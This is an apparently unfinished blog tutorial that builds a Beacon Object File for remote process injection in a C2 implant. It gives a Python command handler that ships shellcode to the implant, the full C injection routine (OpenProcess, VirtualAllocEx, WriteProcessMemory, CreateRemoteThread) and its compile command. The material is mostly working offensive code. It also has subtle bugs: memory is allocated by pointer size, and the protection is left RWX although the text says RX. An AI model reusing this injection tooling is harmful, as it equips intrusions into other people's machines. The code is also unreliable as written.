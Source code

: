 ### Under development
[back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead or Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)

    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary)

    # packs the userinput from C2 client
    packer.addstr(args[1])

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
   
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)

    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);


void go(char* args, int argc){
    
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    

    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    procid = BeaconDataExtract(&parser, NULL);

    //prints hello world
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %s", procid);
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Shellcode length: %s", &shellcodeLength);

    


    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return FALSE;
    }

    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    if(!bufferMemoryaddr){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return FALSE;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Allocated Memory At : 0x%p \n", bufferMemoryaddr);

    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return FALSE;
    }

    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] KERNEL32$VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return FALSE;
    }

    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, NULL);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return FALSE;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread memory At : 0x%p \n", rthreadHandle);

    KERNEL32$CloseHandle(pHandle);

}
```

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```


Reference
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

[back to blog](../blog.md)